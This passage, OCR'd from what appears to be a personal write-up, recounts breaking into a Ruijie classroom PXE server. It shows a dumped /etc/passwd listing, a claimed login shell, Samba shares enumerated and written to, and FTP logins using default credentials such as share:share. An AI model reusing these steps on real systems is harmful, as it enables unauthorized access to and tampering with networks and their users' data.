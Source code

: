     # admin:x:502:0::/home/admin:/home/admin/login.sh 
    # lessons:x:503:503::/opt/ftpshare/lessons:/sbin/nologin 
    # share:x:504:504::/opt/ftpshare/share:/sbin/nologin 
    # upgrade:x:505:505::/opt/ftpshare/upgrade:/sbin/nologin 
    # postgres:x:26:26:PostgreSQL Server:/var/lib/pgsql:/bin/bash 
    # tomcat:x:91:91:Apache Tomcat:/usr/share/tomcat6:/sbin/nologin 
    # teacher:x:506:506::/home/teacher:/bin/bash 
    # dhcpd:x:177:177:DHCP server:/:/sbin/nologin 
    # ntp:x:38:38::/etc/ntp:/sbin/nologin 
    # mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash 
    # apache:x:48:48:Apache:/var/www:/sbin/nologin 
- - - - - - -    


## ** Login Shell got ! **


- - - - - - -
 Using '\\$HIDDEN-SERVER_IP' to Discover Samba On WindowsXP
- - - - - - -
    \\$HIDDEN-SERVER_IP
- - - - - - -
pxeuser?admin?share?
Wow!
The "/pxeuser" share includes all the clients login logs.
The "/admin" share includes all the tools that Ruijie Official made.
The "/share" share is the origin of the Disk D of the Clients.
- - - - - - -
Upload Chrome and Putty to /share.
Done!

 Using 'ftp://user:password@IP:port/' to find what is in FTP
- - - - - - -
ftp://share:share@$HIDDEN-SERVER_IP:21/
ftp://lessons:lessons@$HIDDEN-SERVER_IP:21/
- - - - - - -
The content of the "share" folder is the same as the overhead listed.
The content of the "lessons" folder is the KVM System Image of Client to boot with PXE Network Protocol.
